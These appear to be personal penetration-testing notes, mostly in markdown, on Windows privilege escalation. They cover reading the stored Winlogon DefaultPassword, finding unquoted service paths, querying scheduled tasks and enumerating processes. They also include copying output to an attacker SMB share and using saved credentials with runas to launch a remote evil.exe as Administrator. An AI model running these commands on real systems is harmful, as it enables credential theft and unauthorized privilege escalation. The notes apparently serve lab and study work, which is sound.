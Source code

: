     (Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultPassword -ErrorAction SilentlyContinue).DefaultPassword   

## Unquoted Service Paths

    gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name

## ScheduledTasks

    schtasks /query /fo LIST /v

    schtasks /query /fo LIST /v > schtasks.txt
    copy schtasks.txt \\10.10.14.17\smb\scht.txt

    dos2unix scht.txt
    cat scht.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM

![qownnotes-media-MkSFLk](../media/qownnotes-media-MkSFLk.png)

![qownnotes-media-eaAziX](../media/qownnotes-media-eaAziX.png)

![qownnotes-media-aeBsJo](../media/qownnotes-media-aeBsJo.png)

![qownnotes-media-bOauze](../media/qownnotes-media-bOauze.png)

Usando accesschk.exe

    accesschk.exe /accepteula -quvw <username> <filename>

![qownnotes-media-JfEeCP](../media/qownnotes-media-JfEeCP.png)

## Cached credencials

    cmdkey /list
    runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
    runas /savecred /user:Administrator "cmd.exe /k whoami"

## EnumerateProcess

    get-process
    wmic process
    tasklist
    tasklist /svc
    tasklist /v /fi "username eq system"
    Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
    
## Enumerate device derivers
